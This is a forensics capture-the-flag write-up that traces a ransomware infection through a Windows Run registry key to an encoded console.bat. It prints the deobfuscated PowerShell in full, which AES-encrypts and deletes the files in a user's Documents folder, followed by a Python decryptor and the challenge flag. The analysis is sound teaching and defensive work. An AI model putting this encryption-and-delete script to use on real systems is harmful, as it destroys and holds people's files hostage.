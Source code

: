 ## Unsolved

The format of given file is AD1 so we need to check it with FTK Imager.

![image](https://github.com/user-attachments/assets/2106c011-7c08-4a26-83fa-5607aa1864de)

There is non-default user **sand-4ECC834FCF** so I tried to analyze it.
In description '.. when he installs something suddenly his device reboots and his files suddenly disappear .. ', we can assume the ransomware need to reboot/login for got executed. In windows you can set what device will do everytime user got login in Registry Key. 

I used Registry Explorer tool to check on registry HCKU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run for malicious entry via NTUSER.DAT

![image](https://github.com/user-attachments/assets/6c1ba36e-b037-41ca-b6dc-cfc2b13853db)

We can know that there is file named **console.bat** was executed. The content of that file is encoded powershell code.

![image](https://github.com/user-attachments/assets/ffd3caf0-fc14-454c-b14d-28582ce9bf3c)

I used powerdecode tool to decode and deobfuscate it and this is the result.

```poweshell
function Encrypt-File {
    param (
        [string]$sourceFilePath,
        [string]$destFilePath,
        [string]$encryptionKey,
        [string]$initVector
    )
    
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($encryptionKey)
    $ivBytes = [System.Text.Encoding]::UTF8.GetBytes($initVector)

    # Validate key length (must be 16, 24, or 32 bytes)
    if ($keyBytes.Length -ne 16 -and $keyBytes.Length -ne 24 -and $keyBytes.Length -ne 32) {
        throw "ERROR"
    }
    
    # Validate IV length (must be 16 bytes)
    if ($ivBytes.Length -ne 16) {
        throw "ERROR"
    }

    $aes = New-Object "System.Security.Cryptography.AesManaged"
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $fileContent = [System.IO.File]::ReadAllBytes($sourceFilePath)
    $encryptor = $aes.CreateEncryptor()
    $encryptedContent = $encryptor.TransformFinalBlock($fileContent, 0, $fileContent.Length)

    # Combine IV and encrypted content
    [byte[]] $finalContent = $aes.IV + $encryptedContent
    $aes.Dispose()

    Write-Output $destFilePath
    $result = [System.IO.File]::WriteAllBytes($destFilePath, $finalContent)
    Write-Output "done"
    Remove-Item -Path $sourceFilePath
}

# Main script
$userDocuments = "C:\Users\" + $Env:UserName + "\Documents"
$sourcePath = $userDocuments
$encryptedFilesPath = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create directory for encrypted files
try {
    New-Item -Path $encryptedFilesPath -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path where encryption keys are stored
$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"
$encryptionKey = (Get-ItemProperty -Path $registryPath -Name "59e2beee1b06")."59e2beee1b06"
$initVector = (Get-ItemProperty -Path $registryPath -Name "076a2843f321")."076a2843f321"

Write-Output $encryptionKey

if (-not (Test-Path -Path $registryPath)) {
    New-Item -ItemType Directory -Path $registryPath
}

# Get all files in the Documents folder
$files = Get-ChildItem -Path $sourcePath -File

# Encrypt each file
foreach ($file in $files) {
    $sourceFile = $file.FullName
    $destFile = Join-Path -Path $encryptedFilesPath -ChildPath $file.Name
    Encrypt-File $sourceFile $destFile $encryptionKey $initVector
}

Write-Output "dones"
```

That script encrypt all files from document folder and save it to \AppData\Local\Microsoft\Garage

![image](https://github.com/user-attachments/assets/73ad78b2-a7ea-4c6e-b27c-52ef936e253c)

From the script we can know the encryption method used is AES CBC using key and iv that stored to HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77

![image](https://github.com/user-attachments/assets/94f5538e-de4e-44ec-9d98-8b0babfe7366)

Here is the solver I used :

```python
from Crypto.Cipher import AES

file = open('seccreettttt_credentialll_confidentalll_moodd_booossteerrrr.pdf', 'rb').read()
key = b'ea0aaa5d53dddfe1'
iv = file[0:16]
encrypted = file[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(encrypted)

result = open('result.pdf', 'wb').write(decrypted)
```

![image](https://github.com/user-attachments/assets/14e69fd8-a7fb-4bf6-ac97-fab79f814660)

## Flag
gemastik{be_careful_with_what_is_on_the_internet_r4nsom_everywhere}
